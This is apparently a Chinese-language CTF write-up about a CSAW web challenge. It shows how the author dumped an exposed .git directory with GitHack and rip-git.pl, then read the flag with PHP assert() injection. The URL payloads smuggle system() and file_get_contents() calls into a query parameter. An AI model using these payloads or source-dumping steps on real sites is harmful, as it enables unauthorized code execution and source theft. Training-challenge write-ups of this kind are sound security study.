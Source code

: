 ```yaml
---
title: 关于Git/config.泄露的小结 及 assert()函数注入初探
date: 2016-10-26 04:50:03
categories: CTF
tags: 
- git
- web
---
```


## 0x00 写在前面
晚上Ifuryst发了个web题链接玩玩http://web.chal.csaw.io:8000/

浏览了一下发现了简直是直钩，**你好我知道有猫腻。git泄漏！**
## 0x01 GitHack
GitHack.py https://github.com/lijiejie/GitHack

```
python GitHack.py URL/.git
```

检测到了相关目录并下载源码到我的本地。
flag.php的源码没啥东西…


<!--more-->
## 0x02 assert()注入
打开了``index.php``,看到了很多以``assert()``函数，通过Ifuryst点播，知道存在``assert()注入``。
用“||”进行屏蔽前面的内容，之后在输入

```
http://web.chal.csaw.io:8000/?page=NIKO || print(file_get_contents("templates/flag.php"));//

http://web.chal.csaw.io:8000/?page=NIKO) || system("cat templates/flag.php ");//
```

## 0x03 rip-git.pl
除了GitHack之外，基于Perl写的rip-git也很好用。

获得页面源码：

```
perl rip-git.pl -v -u http://web.chal.csaw.io:8000/.git
```
